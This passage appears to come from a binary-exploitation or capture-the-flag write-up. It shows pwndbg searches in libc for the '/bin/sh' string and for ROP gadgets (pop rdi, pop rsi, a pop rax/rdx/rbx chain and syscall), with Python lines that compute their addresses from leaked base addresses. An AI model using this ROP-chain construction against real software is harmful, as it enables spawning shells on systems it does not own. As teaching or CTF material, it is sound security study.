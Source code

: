     ```
    pwndbg> search "/bin/sh" libc
    libc.so.6       0x7ff584bd8678 0x68732f6e69622f /* '/bin/sh' */
    ```
    ```python
    # Find gadgets
    bin_sh = glibc_rodata + 0x7ff584bd8678 - 0x7ff584bbd000
    print("/bin/sh: ", hex(bin_sh))
    ```

*   **`pop rdi ; ret`** - opcodes: `5f c3`

    ```
    pwndbg> search --trunc-out -2 0xc35f libc
    libc.so.6       0x7ff584a2a3e5 pop rdi
    ```
    ```python
    pop_rdi_gadget = glibc_code + 0x7ff584a2a3e5 - 0x7ff584a28000
    print("pop_rdi gadget: ", hex(pop_rdi_gadget))
    ```

*   **`pop rsi ; ret`** - opcodes `5e c3`

    ```
    pwndbg> search --trunc-out -2 0xc35e libc
    libc.so.6       0x7ff584a2be51 pop rsi
    ```
    ```python
    pop_rsi_gadget = glibc_code + 0x7ff584a2be51 - 0x7ff584a28000
    print("pop_rsi gadget: ", hex(pop_rsi_gadget))
    ```

*   **`pop rax ; pop rdx ; pop rbx ; ret`** - opcodes `58 5a 5b c3`<br>
    Why? Because there was no `pop rdx ; ret` &#128539;

    ```
    pwndbg> search --trunc-out -4 0xc35b5a58 libc
    libc.so.6       0x7ff584a904a8 pop rax
    ```
    ```python
    pop_rax_rdx_rbx_gadget = glibc_code + 0x7ff584a904a8 - 0x7ff584a28000
    print("pop_rax_rdx_rbx_gadget: ", pop_rax_rdx_rbx_gadget)
    ```

*   **`syscall`** - opcodes `0f 05`

    ```
    pwndbg> search --trunc-out -2 0x050f libc
    libc.so.6       0x7ff584a29db4 syscall 
    ```
    ```python
    syscall_gadget = glibc_code + 0x7ff584a29db4 - 0x7ff584a28000
    print("syscall gadget: ", hex(syscall_gadget))
    ```
